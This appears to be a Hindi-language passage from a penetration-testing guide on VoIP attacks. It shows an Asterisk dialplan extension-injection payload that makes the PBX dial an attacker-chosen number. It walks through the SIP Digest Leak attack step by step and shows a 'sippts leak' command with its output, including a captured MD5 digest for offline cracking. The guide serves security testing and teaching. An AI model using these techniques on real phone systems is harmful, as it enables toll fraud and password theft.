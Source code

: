 ### एक्सटेंशन इंजेक्शन

एक एक्सटेंशन का उपयोग करते हुए:
```scss
exten => _X.,1,Dial(SIP/${EXTEN})
```
जहाँ **`${EXTEN}`** वह **extension** है जिसे कॉल किया जाएगा, जब **ext 101 पेश किया जाएगा** तो यह होगा:
```scss
exten => 101,1,Dial(SIP/101)
```
हालांकि, यदि **`${EXTEN}`** **संख्याओं** से **अधिक** को पेश करने की अनुमति देता है (जैसे पुराने Asterisk संस्करणों में), तो एक हमलावर **`101&SIP123123123`** पेश कर सकता है ताकि फोन नंबर 123123123 पर कॉल किया जा सके। और इसका परिणाम होगा:
```scss
exten => 101&SIP123123123,1,Dial(SIP/101&SIP123123123)
```
इसलिए, **`101`** और **`123123123`** पर कॉल भेजी जाएगी और केवल पहला कॉल प्राप्त करने वाला स्थापित होगा... लेकिन यदि एक हमलावर **कोई ऐसा एक्सटेंशन का उपयोग करता है जो किसी भी मिलान को बायपास करता है** जो किया जा रहा है लेकिन अस्तित्व में नहीं है, तो वह **केवल इच्छित नंबर पर कॉल इंजेक्ट कर सकता है**।

## SIPDigestLeak भेद्यता

SIP Digest Leak एक भेद्यता है जो कई SIP फोन को प्रभावित करती है, जिसमें हार्डवेयर और सॉफ़्टवेयर IP फोन के साथ-साथ फोन एडाप्टर (VoIP से एनालॉग) शामिल हैं। यह भेद्यता **डाइजेस्ट प्रमाणीकरण प्रतिक्रिया के लीक** की अनुमति देती है, जो पासवर्ड से गणना की जाती है। एक **ऑफलाइन पासवर्ड हमले की संभावना है** और चुनौती प्रतिक्रिया के आधार पर अधिकांश पासवर्ड को पुनर्प्राप्त किया जा सकता है।

**[यहां से भेद्यता परिदृश्य**](https://resources.enablesecurity.com/resources/sipdigestleak-tut.pdf):

1. एक IP फोन (शिकार) किसी भी पोर्ट पर सुन रहा है (उदाहरण: 5060), फोन कॉल स्वीकार कर रहा है
2. हमलावर IP फोन को एक INVITE भेजता है
3. शिकार फोन बजने लगता है और कोई उठाता है और फोन रख देता है (क्योंकि दूसरी तरफ कोई फोन का जवाब नहीं देता)
4. जब फोन रख दिया जाता है, तो **शिकार फोन हमलावर को BYE भेजता है**
5. **हमलावर 407 प्रतिक्रिया जारी करता है** जो **प्रमाणीकरण के लिए पूछता है** और प्रमाणीकरण चुनौती जारी करता है
6. **शिकार फोन प्रमाणीकरण चुनौती का उत्तर प्रदान करता है** एक दूसरे BYE में
7. **हमलावर फिर अपनी स्थानीय मशीन (या वितरित नेटवर्क आदि) पर चुनौती प्रतिक्रिया पर एक ब्रूट-फोर्स हमला कर सकता है** और पासवर्ड का अनुमान लगा सकता है

* **SIPPTS लीक** [**sippts**](https://github.com/Pepelux/sippts)** से:** SIPPTS लीक SIP Digest Leak भेद्यता का लाभ उठाता है जो कई SIP फोन को प्रभावित करती है। आउटपुट को SIPPTS dcrack या SipCrack टूल का उपयोग करके ब्रूटफोर्स करने के लिए SipCrack प्रारूप में सहेजा जा सकता है।
```bash
sippts leak -i 10.10.0.10

[!] Target: 10.10.0.10:5060/UDP
[!] Caller: 100
[!] Callee: 100

[=>] Request INVITE
[<=] Response 100 Trying
[<=] Response 180 Ringing
[<=] Response 200 OK
[=>] Request ACK
... waiting for BYE ...
[<=] Received BYE
[=>] Request 407 Proxy Authentication Required
[<=] Received BYE with digest
[=>] Request 200 Ok

Auth=Digest username="pepelux", realm="asterisk", nonce="lcwnqoz0", uri="sip:100@10.10.0.10:56583;transport=UDP", response="31fece0d4ff6fd524c1d4c9482e99bb2", algorithm=MD5
```
